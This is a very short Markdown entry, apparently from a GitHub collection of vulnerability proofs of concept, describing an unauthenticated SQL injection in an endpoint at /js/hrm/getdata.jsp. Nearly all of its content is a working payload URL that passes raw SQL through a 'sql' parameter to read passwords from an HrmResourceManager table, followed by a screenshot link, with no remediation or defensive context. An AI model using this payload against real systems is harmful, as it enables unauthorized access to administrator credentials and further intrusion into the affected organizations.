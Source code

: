 ### 前台SQL注入漏洞-/js/hrm/getdata.jsp
POC:
```
 /js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```
![image](https://user-images.githubusercontent.com/55024146/118272767-adc09a00-b4f5-11eb-9a7b-6fc0b4ea0616.png)

